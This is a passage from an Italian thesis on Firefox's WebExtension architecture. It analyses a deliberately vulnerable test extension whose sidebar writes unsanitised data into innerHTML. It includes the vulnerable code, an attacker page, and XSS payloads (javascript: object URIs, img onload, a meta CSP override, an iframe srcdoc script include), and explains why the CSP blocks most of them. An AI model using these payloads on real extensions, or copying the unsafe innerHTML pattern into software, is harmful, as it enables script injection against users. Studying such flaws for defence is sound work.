        Parent e Child. Il Parent viene collocato sul processo che rimarrà attivo più a lungo, idealmente il genitore, 
        mentre il Child è l'entità corrispondente attiva su un altro processo, idelamente figlio del primo.
        Durante la compilazione, XPConnect genera sia le strutture di rappresentazione dei protocolli che le
        interfacce di programmazione per gli attori, implementate allo stesso modo delle interfacce \idl{}.


    \section{I file di WebExtension}
    \label{sec:webextension-files}
        Il codice del WebExtension framework può essere trovato nella cartella \file{toolkit/} \file{components/extensions/}, è composto
        da molti file che suddividerò in tre categorie: core, integrativi ed implementativi.\\
        \subsubsection{Core}
        I file di \bold{core} definiscono logica e strutture in ambiente nativo che verranno indirettamente utilizzate da
        tutti gli altri file, eseguono a livello di processo e svolgono ruoli di gestione della comunicazione tra
        processi e avviamento degli altri script.\\
        La classe forse piu importante tra i file di core è \file{ExtensionPolicyService.cpp} che svolge molti ruoli
        vitali per i Content Process, come l'avviamento dell'ambiente \JS{} del WebExtension Framework sul processo,
        check di sicurezza in ambiente nativo e iniezione degli script nella memoria del processo.\\
        \subsubsection{Integrativi}
        I file detti \bold{integrativi} definiscono la logica del framework, sono perlopiù moduli \JS{}
        e lavorano a stretto contatto con i servizi e le utilities fornite da Gecko, come contesti di esecuzione \JS{}, sandbox, storage
        e cache. Il loro compito è di gestire i dati delle estensioni nel Content Process ospite e sincronizzare le strutture
        di rappresentazione dell'estensione collocate sugli altri processi; per queste ragioni troviamo classi che
        coordinano l'invio e la ricezione di chiamate a procedure remote, classi per il setup e l'avviamento
        del contesto \JS{} in cui verrà eseguita l'estensione, parsing dei manifesti e degli schemi implementativi
        che descrivono gli api. \\
        Tra gli script integrativi importanti voglio menzionare \file{ExtensionCommon.sys.mjs}
        che definisce le interfacce e classi base utilizzate dalle strutture descritte nelle sezioni seguenti.\\
        \subsubsection{Implementativi}
        Infine gli script \bold{implementativi} definiscono gli oggetti che l'api espone, ovvero quelli ospitati
        dall'oggetto \code{browser} menzionato nella \Sezione{sec:webextension-api}. Curiosamente le definizioni di tali
        oggetti non sono note al framework a tempo di compilazione, ma vengono introdotte a runtime dal framework stesso attraverso
        schemi \json{} che contengono metadati sugli api e referenze ai rispettivi script \cite{webextension-api-development}, infatti i file cosiddetti implementativi
        sono schemi \json{} (indicizzati da \file{ext-toolkit.json} e collocati nella sottocartella \file{schemas/}) e script \JS{}
        che contengono il codice degli api esposti (residenti nelle sottocartelle \file{parent/} e \file{child/}).

    \section{L'estensione a runtime}
    \label{sec:webextension-extension-runtime}
        Seppure l'estensione appaia come un'unica entità per l'utente finale e come un insieme
        di script per lo sviluppatore, l'engine Gecko ne ha una rappresentazione diversa per
        ogni Browsing Context su cui gli script dell'estensione devono essere attivi.
        Due sono le principali rappresentazioni di una estensione: la classe \code{Extension}
        rappresenta l'estensione sul Parent Process, mentre la classe \code{BaseExtensionContent}
        la rappresenta sui Content Process (compreso l'Extension Process). I tipi di dato
        trasportati sono piu o meno gli stessi e includono:
        \begin{itemize}
            \item \bold{WebExtensionPolicy}. È un oggetto che racchiude le informazioni di sicurezza
                    dell'estensione, come Entità di Sicurezza, Content Security Policy e permessi del \manifest{}.
                    Esso è descritto dal file \file{WebExtensionPolicy.webidl} (una variante di file \idl{})
                    ed implementato in codice nativo C++, così come lo sono anche le Entità di Sicurezza
                    e le Content Security Policy. Il lettore interessato potrà leggere le loro definizioni
                    in \file{caps/nsIPrincipal.idl} e \file{dom/interfaces/security/nslIContentSecurityPolicy.idl}.

            \item \bold{gli script}. Ovvero quali script formano l'estensione, è una lista che puo
                    variare a seconda del contesto d'esecuzione. Il Parent Process conosce tutti gli
                    script dell'estensione, sia quelli statici, sia quelli definiti dinamecamente a
                    runtime. Extension Process ha visione dei content-script statici e della lista
                    di script di background, anch'essa espandibile a runtime. Invece i WebContent
                    Process hanno visione soltanto dell'insieme dei content-script (statici e di runtime).

            \item \bold{API Manager}. Il gestore dei WebExtension API assegnato a questo contesto
                    d'esecuzione. Approfondisco gli API Manager nella \refSection{sec:webextension-api-rpc},
                    per ora basti sapere che ogni contesto di esecuzione ha il proprio API Manager.

            \item \bold{Metadati}. Nome dell'estensione, uuid, id, stato corrente, URI di base e altri dati
                    che possano tornare utili alle strutture di gestione.
        \end{itemize}
    
    \section{L'api a runtime}
    \label{sec:webextension-api-rpc}

        Gli script serviti dal WebExtension API sono molteplici e dislocati in piu processi,
        il browser deve garantire che le chiamate agli API rimangano coerenti con lo stato interno
        del browser. \\
        Salvo diversamente specificato, il codice d'implementazione degli API viene
        eseguito nel Parent Process, all'interno di una Sandbox registrata come Entità di Sistema
        e con accesso a molti dei servizi browser. In realtà possono esistere anche implementazioni
        cosidette "locali", cioe risiedenti sullo stesso processo in cui sta venendo eseguito lo
        script, usate per ospitare oggetti che non richiedono accesso a dati di importanza critica
        ma la grande maggioranza degli API sono ospitati da una classe singleton nel Parent Process.\\

        La comunicazione tra l'estensione e il Parent Process è gestita da un APIManager che viene
        istanziato per ogni contesto d'esecuzione. Esso raccoglie le chiamate alle funzioni api,
        controlla i permessi, invia una RPC al parent e ritorna la risposta all'estensione invocante.
        In realtà l'APIManager non è un \textit{Attore} \ipdl{} (vedi \refSection{sec:xpcom}) e non si
        occupa direttamente della comunicazione IPC ma soltanto della logica applicativa; l'unica
        eccezione è la singleton \code{ParentAPIManager} del Parent, incaricata non solo degli API, ma
        anche del corretto recapito dei risultati ai vari Browsing Context.
        Gli API manager devono anche controllare i permessi di esecuzione per verificare che l'estensione
        possa o meno chiamare la funzione api, questo controllo viene fatto sia sul Child che sul Parent
        tenendo conto dei permessi dichiarati nel \manifest{} e dei permessi propri del contesto d'esecuzione.
        Il lettore interessato troverà l'implementazione di queste strutture nel file \file{ExtensionChild.sys.mjs},
        eseguito su ogni Content Process, ed \file{ExtensionParent.sys.mjs}, che implementa le strutture
        relative al Prent Process. Il lettore non si faccia ingannare dal file \file{ExtensionContent.sys.mjs} 
        il quale sì, si occupa di strutture sul Content Process, ma solo quelle relative ai content-script.

        Il lettore curioso poterbbe chiedersi quale sia la natura degli elementi dell'oggetto
        \code{browser} discusso nella \refSection{sec:webextension-api} a cui le estensioni accedono.
        Ebbene si tratta a loro volta di oggetti proxy situati nel Child process, frapposti tra lo
        script e l'APIManager assegnato all'estensione, che espongono metodi omonimi agli api, ma invocanti
        l'APIManager affinché effettui la chiamata RPC.


\chapter{Analisi di \vuln}
\label{cap:analisi-vuln}
    Questo capitolo illustra gli script e le componenti che verranno abusate dagli attacchi
    discussi nel \refChapter{cap:attaccando-vuln}.
    La \refSection{sec:analisi-vuln-manifest} tratta l'analisi del manifest, file di presentazione
    sia per le estensioni che per questo capitolo,
    a seguire la \refSection{sec:analisi-vuln-sidebar} discuterà del codice dietro la sidebar
    di \vuln e le istruzioni responsabili di aver introdotto la vulnerabilità nell'estensione,
    infine nella \refSection{sec:analisi-vuln-content-script} si mostra il codice del
    content script che giocherà un ruolo chiave durante gli attacchi.

    \section{Il \manifest}
    \label{sec:analisi-vuln-manifest}
        Ora che l'ambiente WebExtension è stato discusso approfonditamente è il momento di
        osservare una estensione fatta e finita e comprendere se frammenti di codice vulnerabile
        possano costituire realmente una minaccia per l'utente che l'ha installata.
        L'analisi incomincia dal \manifest dell'estensione riportato nel listato seguente:
        \begin{lstlisting}
    {
        "manifest_version": 2,
        "name": "vuln",
        "version": "1.0",
        "description": "vuln",

        "content_scripts" : [
            {
            "matches":[ "*://localhost/*", "*://127.0.0.1/*", "*://www.attacker.xyz/*" ],
            "js": ["content/csMain.js"],
            "run_at": "document_end"
            }
        ],

        "sidebar_action": {
            "default_title": "Vuln sidebar",
            "default_panel": "sidebar/page.html"
        },

        "background" : {
            "page": "background/bgPage.html",
            "persistent": false
        },

        "permissions": [
            "storage"
        ]
    }
        \end{lstlisting}
        Gia dalla prima voce otteniamo una informazione importante, si tratta di un Manifesto Versione 2,
        questo significa che i content script non saranno soggetti a restrizioni di Content Security Policy.
        La voce \code{"content\_scripts"} di \vuln{} dichiara un solo content script attivo su qualsiasi pagina ospitata dalla
        lista \code{"matches"} di pattern d'origine, i tre pattern di \vuln{} sono da interpretare come:
        \textit{"qualsiasi porta e qualsiasi protocollo sui domini localhost, 127.0.0.1 e www.attacker.xyz"},
        il codice dello script si strova nel file \file{content/csMain.js} e deve essere eseguito
        alla fine del caricamento della pagina (voce \code{"run\_at"}), probabilmente perché avrà bisogno
        di accedere ad elementi del documento html, elementi che devono avere il tempo di essere caricati.
        La voce \code{"sidebar\_action"} dichiara che l'estensione intende aggiungere un pannello di sidebar
        che visualizza il documento \file{sidebar/page.html} il cui fine è ancora ignoto, analogamente
        il browser dovrà ospitare anche una finestra in background \file{background/bgPage.html}, entrambe
        queste finestre avranno accesso all'api \code{"storage"} come indicato nell'ultima voce \code{"permissions"};
        pertanto è lecito supporre che almeno una di esse ospiti codice \JS e memorizzi dati nello storage.
        
    \section{La sidebar}
    \label{sec:analisi-vuln-sidebar}
        Come detto nella \refSection{sec:estensione-vuln}, per costruzione sappiamo gia che la vulnerabilità
        risiede nella logica della sidebar. I listati seguenti mostrano rispettivamente il codice html del documento
        visualizzato nella sidebar e lo script che ne determina il comportamento:

        \begin{lstlisting}[caption={Contenuto di \file{sidebar/page.html}},captionpos=b,label=code:sidebar/page.html]
<!doctype html>
<html>
  <head>
    <meta charset="utf-8" />
    <link rel="stylesheet" href="page.css" />
    <script src="../shared/archive.js"></script>
    <script defer src="sbMain.js"></script>
    
  </head>

  <body>
    <p>Archive:</p><br/>
    <section id="output"></section>
  </body>
</html>
        \end{lstlisting}

        \begin{lstlisting}[caption={Contenuto di \file{sidebar/sbMain.js}},label=code:sidebar/sbMain.js]

const output = document.getElementById("output");

function updateArchiveView(arch) {

    output.innerHTML = "";

    for ( let data of arch ) {
        let container = document.createElement("div");
        let keyField = document.createElement("span");
        let valField = document.createElement("span");
        let br = document.createElement("br");

        keyField.innerHTML = data.key + ": ";
        valField.innerHTML = data.value;

        container.appendChild( keyField );
        container.appendChild(valField);
        container.appendChild(br);

        output.appendChild(container);
    }
}

function main() {
    getArchive()
    .then( updateArchiveView );

    addArchiveChangeListener( (storage) => { updateArchiveView(storage[ARCHIVE_NAME].newValue) } );
}

window.onload = main
        \end{lstlisting}

        Il codice della pagina non contiene informazioni rilevanti eccetto gli script inclusi
        a righe 6 e 7. \file{../shared/archive.js} è uno script di utility sul quale non mi soffermerò, basti sapere
        che dichiara le funzioni \code{getArchive()} e \code{addArchiveListener()}, rispettivamente
        per ottenere l'archivio di storage e registrare un listener richiamato al cambiamento dei
        dati nello storage, mentre \file{sbMain.js} è lo script dietro al comportamento della
        pagina. La sua logica è semplice: la funzione \code{updateArchiveView()} ottiene in input
        una lista di oggetti contenenti una coppia \code{key} e \code{value}, per ogniuno di essi
        inserisce nel documento due elementi html \code{<span>} che mostrano il valore di \code{key}
        e \code{value} rispettivamente; \code{updateArchiveView} viene invocata al caricamento
        della finestra e ogni volta che l'archivio è modificato. A righe 14 e 15 della funzione 
        si trova la vulnerabilità, l'assegnazione diretta dei valori all'attributo \attr{innerHTML}
        degli elementi \code{<span>}.\\
        Seppure appaia come attributo, la proprietà \attr{innerHTML} è in realtà una coppia di metodi
        getter/setter, quando si assegna un valore viene richiamato il metodo setter che inserisce
        il valore tra il tag iniziale e terminale dell'elemento modificato come codice html valido
        che verrà eseguito all'inserimento nella pagina. Di conseguenza se \code{key} o \code{value}
        dovessero essere stringhe contenenti sintassi html allora verrebbero eseguite aprendo la
        strada a una possibile compromissione della pagina, ma da dove provengono i valori della
        coppia?

    \section{Il content script}
    \label{sec:analisi-vuln-content-script}
        Dal punto di vista del sistema di sicurezza il codice del content script è considerato
        una Entità Estesa (vedi \refSection{sec:security-principal}) che ha come oggetto
        globale la \code{window} della pagina web su cui sta venendo eseguita, la quale
        però è una Entità di Contenuto; pertanto secondo la Security Policy di Firefox (vedi \refSection{sec:sicurezza-script-security-policy})
        i content script hanno una visione ridotta degli oggetti del DOM (vedi \refSection{sec:sicurezza-xray-vision}).
        Per avere visione delle proprietà reali il content script deve mitigare lo strato
        di sicurezza e ottenere l'oggetto sottostante, a questo serve l'attributo \attr{wrappedJSObject},
        richiamabile dagli script su oggetti collocati in compartimenti meno "privilegiati".
        Terminato il preambolo, ecco riportato il codice \JS dietro al content script di \vuln:
        \begin{lstlisting}

const getPayload = ( obj ) => {

    if ( obj instanceof Document ) {
        // Cerca Elementi "key" e "value" nel document
        obj = obj.wrappedJSObject;
        return { 
            key: obj.getElementById("key")?.innerHTML, 
            value: obj.getElementById("value")?.innerHTML 
        };
    }
    else if ( obj instanceof Event ) {
        // Cerca attributi "key" e "value" nei dettagli dell'evento custom
        obj = obj.wrappedJSObject;
        return {
            key: obj.detail.key,
            value: obj.detail.value,
        }
    }
    else
        throw new Error("Cannot recover payload from this object");
}


window.addEventListener( "trigger", (ev) => {
    const payload = getPayload( ev );
    payload && browser.runtime.sendMessage( payload );
} )

window.onload = () => {
    const payload = getPayload( document )
    payload && browser.runtime.sendMessage( payload );
}

        \end{lstlisting}
        La funzione \code{getPayload} definita nelle prime righe del file estrapola la coppia
        \code{key} \code{value} dall'oggetto passatogli come argomento che può essere istanza
        di un documento DOM o di un evento. Se si tratta di un documento allora i dati vengono
        cercati nel contenuto della pagina come testo html racchiuso rispettivamente nel corpo
        degli elementi \code{key} e \code{value}; invece se l'oggetto è un evento allora i
        dati sono estrapolati dal suo campo \attr{detail}. In entrambi i casi la visione Xray
        deve essere disattivata.
        Infine il ritrovamento della coppia viene notificato al runtime e i dati inviati come
        corpo del messaggio, successivamente lo script di background li immagazzinerà nello
        storage per poter essere letti e visualizzati dalla sidebar.\\
        Sui dati non viene fatto alcun controllo né sul tipo, né sul contenuto né sulla loro
        integrità percui il codice della sidebar non ha modo di sapere se le stringhe che sta
        inserendo nella propria finestra contengano sequenze di caratteri potenzialmente malevoli.


\chapter{Attaccando \vuln}
\label{cap:attaccando-vuln}
    si insomma dopo tutta sta trafila giungiamo ai fatti.

    \section{Il sito dell'attaccante}
    \label{sec:attaccando-vuln-sito}
        Come visto nella \refSection{sec:analisi-vuln-content-script} il punto d'ingresso all'inezione
        deve essere una pagina web (ospitata dall'URL controllato dall'attaccante o su un host locale)
        che contenga due elementi html identificati dall'attributo \code{id} con valore \code{key} o
        \code{value}, oppure che lanci l'evento \code{"trigger"}.\\
        Il listato \ref{code:attack-page-base} mostra il codice che da ora in poi verrà usato come base per tutti gli attacchi
        che seguiranno:
        \begin{lstlisting}[caption={codice html della pagina di attacco}, captionpos=b, label={code:attack-page-base}]
    <!DOCTYPE html>
    <html>
        <head>
        </head>
        <body>
        <span id="key">chiave</span>
        <span id="value">valore</span>
        
        <input id="btnTrigger" type="button" value="TRIGGER">
    
        <script defer>
            btnTrigger.onclick = () => {
                window.dispatchEvent( new CustomEvent("trigger", {
                    detail:{
                        key: "ev_chiave", 
                        value: "ev_valore" 
                    }
                } ))
            }
        </script>
        </body>
    </html>
        \end{lstlisting}
        Righe 6-7 sono gli elementi cercati dal content script, il testo contenuto nei tag \code{<span>}
        costituisce i valori, mentre l'elemento a riga 9 è un bottone programmato dallo script a riga 11
        e quando viene premuto lancia l'evento \code{"trigger"}. L'utilizzo di un bottone per il
        controllo dell'evento è puramente a scopo dimostrativo e non ne influenza la cattura da parte
        del content-script.
        La figura \ref{fig:sidebar-key-value-example} mostra un esempio di funzionamento dell'estensione,
        il riquadro sulla destra mostra la pagina dell'attaccante mentre il riquadro sulla sinistra visualizza 
        la finestra della sidebar nella quale si distinguono
        i dati ottenuti dalla pagina dell'attaccante dove \textit{chiave:valore} proviene dagli
        elementi \code{<span>} e \textit{ev\_chiave:ev\_valore} dal contenuto dell'evento.

        \begin{figure}[ht]
            \centering                                                  
            
\includegraphics[width=0.7\textwidth]{sidebar-key-value-example.png}
            \caption{ Esempio di cattura e visualizzazione dei dati da parte dell'estensione }
            \label{fig:sidebar-key-value-example}                             
        \end{figure}

    \section{Primi tentativi}
    \label{sec:attaccando-vuln-tentativi}
        Munito della pagina di exploit, ho dovuto prima di tutto confermare le assunzioni sul
        codice vulnerabile e testare le restrizioni note; come payload iniziale ho scelto
        di iniettare uno ad uno questi tag nel campo \code{value} dell'evento:
        \begin{lstlisting}
    <script src="sbMain.js" type="text/javascript">
    <object data="javascript:location.href='about:blank'">
    <img src="https://wallpapercave.com/wp/wp5357862.jpg" onload="location.href='about:blank'" >
\end{lstlisting}
        tutti hanno cercato di eseguire codice javascript e tutti hanno fallito, cerchiamo di capire
        le motivazioni dietro questo risultato.

        \subsubsection{Primo payload}

            \begin{lstlisting}[numbers=none]
            <script src="sbMain.js" type="text/javascript">
\end{lstlisting}
            Il primo è un semplice tag script che esegue codice ottenuto dal file locale \file{sbMain.js},
            gli obiettivi di questo paylod sono due: scoprire se lo script venga incluso e scoprire che 
            cosa sia considerato "locale" nel contesto della sidebar. Il risultato atteso era un errore
            di Content Security Policy che bloccasse l'esecuzione dello script a fronte dell'inclusione del
            tag nello schema html; il tag è stato inserito ma nessun errore è apparso sulla console e non
            c'è stata alcuna esecuzione del codice \JS.\\
            La ragione sta proprio nell'utilizzo del setter \attr{innerHTML}, come specificato nella
            documentazione i tag \code{<script>} inseriti con questo metodo non saranno eseguiti per
            ragioni di sicurezza \cite{innerHTML}. Tornerò su questo tema nella \refSection{sec:attaccando-vuln-bypass}.

        \subsubsection{Secondo payload}

            \begin{lstlisting}[numbers=none]
    <object data="javascript:location.href='about:blank'">
\end{lstlisting}
            Questo payload è un classico bypass della restrizione di sicurezza su \attr{innerHTML} che ha impedito al
            payload precedente di essere eseguito, si tratta di un tag \code{<object>} che contiene una risorsa
            ottenuta dall'URL specificato nel campo \code{data}. Come il lettore avrà notato l'URL del payload
            è diverso dagli altri, infatti è un booklet, un tipo di URI caratterizzato dal protocollo \code{javascript:}
            che esegue codice \JS quando interpretato; in questo caso il codice in questione redirige
            la finestra corrente sulla pagina \code{about:blank}, o almeno è cio che accadrebbe in una pagina web
            con una Content Security Policy blanda ma nel caso della sidebar il risultato atteso è il lancio
            di un errore di sicurezza che blocca l'esecuzione dello script. Sotto questa ottica si potrebbe dire che
            il test ha avuto successo, dal punto di vista dell'attaccante un po' meno.\\
            La sidebar include correttamente il tag nella sua finestra ma la CSP dell'estensione identifica un tentativo
            d'esecuzione di script-inline e lo blocca. Ne deduco che anche inserendo booklet nelle proprietà di
            altri tag la CSP verrà comunque allertata.

        \subsubsection{Terzo payload}
            \begin{lstlisting}[numbers=none]
    <img 
        src="https://wallpapercave.com/wp/wp5357862.jpg" 
        onload="location.href='about:blank'" 
    >
\end{lstlisting}
            L'ultimo payload tenta di ottenere una risorsa immagine da un URL terzo e redirigere la pagina
            quando l'elemento è stato caricato. L'attributo \code{onload} specifica il codice javascript
            da eseguire, gia discusso nella sezione precedente. Poiché la CSP delle estensioni restringe 
            solo l'origine degli script mi aspetto che l'immagine venga visualizzata nella sidebar ma il
            codice non sia eseguito. L'iniezione del tag conferma entrambe le ipotesi dimostrando che
            è possible effettuare richieste a qualsiasi url, mentre il contenuto di \code{onload} viene segnalato
            come script-inline e bloccato.\\

    \section{Bypass delle restrizoni}
    \label{sec:attaccando-vuln-bypass}
        I test precedenti hanno evidenziato le due maggiori difficoltà dietro l'iniezione di script,
        \attr{innerHTML} impedisce l'uso di tag \script{} 
        e la CSP della pagina nullifica le tecniche comuni di bypass di questo problema. Nelle sezioni
        che seguono discuto dei tentativi di mitigazione delle restrizioni e di quali impedimenti ho
        incontrato lungo il percorso.
        
        \subsection{Override via tag \meta}
        \label{sec:attaccando-vuln-bypass-meta}
            In HTML5 è presente un tag dalle proprietà peculiari, si tratta del tag \meta.
            Nella documentazione mozilla viene introdotto come \textit{"un elemento che rappresenta 
            metadati non esprimibili attraverso altri tag relativi a metadati, come \code{<base>}, 
            \code{<link>}, \script, \code{<style>} o \code{<title>}"} \cite{tag-meta}.
            Questo tag permette di specificare una coppia chiave-valore, a seconda dei dati di
            questa coppia l'effetto sulla pagina può variare da semplici informazioni aggiuntive
            a modifiche ai metadati di sicurezza o della pagina stessa. Per il miei scopi ho fatto
            uso dell'attributo \code{http-equiv}.\\
            Sempre la documentazione mozilla afferma: \textit{"Se l'attributo \code{http-equiv} è impostato,
            l'elemento \meta{} è una direttiva pragma fornente informazioni equivalenti a quelle che
            verrebbero date da un header HTTP dotato di un nome simile"} \cite{tag-meta}.\\
            La Content Security Policy di una risorsa web viene solitamente specificata da un header HTTP della
            risposta oppure dal tag \meta impostando \code{"content-security-} \code{policy"} come valore
            dell'attributo \code{http-equiv} e la politica desiderata come valore dell'attributo \code{content},
            così:
            \begin{lstlisting}[label=code:meta-tag-example,caption={Esempio di CSP dichiarata nel documento della pagina}]
    <meta 
        http-equiv="Content-Security-Policy" 
        content="script-src unsafe-inline" 
    />
            \end{lstlisting}
            Il \refCode{code:meta-tag-example} indica al browser che la Content Security Policy della
            pagina autorizza l'esecuzione di script-inline come quelli bloccati nei miei primi tentativi.\\
            A fronte di queste informazioni ho costruito un nuovo payload che sovrascrivesse la CSP della
            pagina ed eseguisse \JS{} inline, il \refCode{code:meta-tag-inline-injection} sottostante mostra tale codice:
            \begin{lstlisting}[label=code:meta-tag-inline-injection, caption={Payload per sovrascrivere la CSP del documento ed eseguire javascript inline}]
    <meta 
        http-equiv="Content-Security-Policy" 
        content="script-src unsafe-inline" 
    />
    <object data="javascript:location.href='about:blank'">
            \end{lstlisting}
            Purtroppo neanche questo test ha avuto successo, la console mi ha restituito un errore di Content
            Security Policy affermando che lo script-inline violasse la CSP della pagina. 
            La causa di questo fallimento è dovuta ad un'altra misura di sicurezza specifica delle WebExtension: la CSP
            di default può essere modificata soltanto dalla voce \code{"content\_security\_policy"} del 
            \manifest{} (vedi \refSection{sec:difese-background-sidebar}). 
            Inoltre, la CSP delle estensioni deve permettere l'esecuzione di script locale e non deve consentire
            l'esecuzione di script inline, pertanto la stringa di CSP deve essere in questa forma:
            \begin{lstlisting}[numbers=none]
                srcipt-src 'self' <attr>
            \end{lstlisting}
            Dove \code{<attr>} è una lista di origini che non può contenere il valore \code{'unsafe-inline'}.
            Anche se riuscissi sovrascrivere la CSP usando il tag \meta{}, il blocco completo del codice inline
            mi impedirebbe di usare altri tag al difuori di \script{}, pertanto non è possibile bypassare 
            \attr{innerHTML} in questo modo.
        
        
        \subsection{Inclusione di \iframe}
        \label{sec:attaccando-vuln-bypass-iframe}
            Un tag \iframe rappresenta un Browsing Context
            innestato nella pagina che lo ospita, il suo contenuto dipende dall'attributo \code{src} che specifica
            l'URI sorgente della sotto-finestra. Trattandosi di un Browsing Context indipendente si deduce che
            il compartimento dell'\iframe sia separato da quello del genitore e innestando una pagina controllata
            dall'attaccante gli script interni all'iframe otterranno un wrapper cross-origin o addirittura opaco
            della finestra esterna (vedi \refSection{sec:sicurezza-script-security-policy}).\\
            Esiste però un altro attributo chiamato \code{srcdoc} il cui valore è interpretato come codice html della
            pagina innestata; abilitando l'inclusione di script esterni a fine dimostrativo, possiamo notare che
            il compartimento di un iframe sì costruito è considerato same-origin con il suo contenitore.
            Il listato \ref{code:sidebar-iframe-example} è un payload costruito per dimostrare le proprietà di un
            \iframe che definisce il proprio codice di pagina mentre la figura \ref{fig:sidebar-iframe-example}
            mostra il risultato dell'iniezione. Il piccolo riquadro bordato di nero all'interno della sidebar è
            l'iframe iniettato, le stringhe \code{Self=} e \code{Parent=} sono state inserite nella pagina dal
            codice di \file{http://localhost/code.js} e mostrano l'origine dell'iframe stesso e della pagina
            contenitore rispettivamente. Riporto il testo di \code{Parent=} troncato dall'immagine:\\
            \code{Parent=moz-extension://ee77424a-5839-4f17-a837-6c1d6d12eed9/sidebar/page.html}\\

            \begin{lstlisting}[caption={iframe costruito con srcdoc},label={code:sidebar-iframe-example}]
<iframe 
    srcdoc="<html>
        <body><script src=http://localhost/code.js ><\/script></body>
    </html>" >
</iframe>
\end{lstlisting}

            \begin{figure}[ht]
                \centering
                
\includegraphics[width=0.8\textwidth]{sidebar-iframe-test.png}
                \caption{Un iframe iniettato nella sidebar che mostra l'origine associata a se e alla finestra genitore}
                \label{fig:sidebar-iframe-example}
            \end{figure}

            Da questo test si estrapolano tre punti importanti:
            \begin{enumerate}
                \item Seppure dal punto di vista dell'\iframe{} la propria origine sia \code{about:srcdoc}, è comunque
                        considerato same-origin dal genitore ed ha accesso al WebExtensionAPI

                \item L'URI di una estensione è un uuid prefisso dal protocollo \code{moz-extension://}, potenzialmente
                        navigabile.

                \item Il lettore attento avrà notato che (al dilà della Content Security Policy) è stato possibile
                        includere ed eseguire codice \JS nell'iframe, e quindi nella pagina della sidebar, nonostante 
                        il setter \attr{innerHTML}.
            \end{enumerate}
            
    
    \section{Sfruttare la vulnerabilità}
    \label{sec:attaccando-vuln-risultati}
        Seppure non sia riuscito ad eseguire codice arbitrario, l'attaccante può comunque disturbare il corretto
        funzionamento dell'estensione combinandone sapientemente le caratteristiche con i risultati
        ottenuti in precedenza. Come verrà discusso nelle sezioni seguenti, il livello di danno provocato da queste 
        tecniche dipende molto dalle funzionalità e dai file accessibili all'estensione. Sotto questa luce 
        quello di \vuln{} è un ambiente piuttosto magro che non rende onore ai risultati ottenibili con estensioni più 
        complesse eppure sufficiente ai fini dimostrativi dell'articolo.

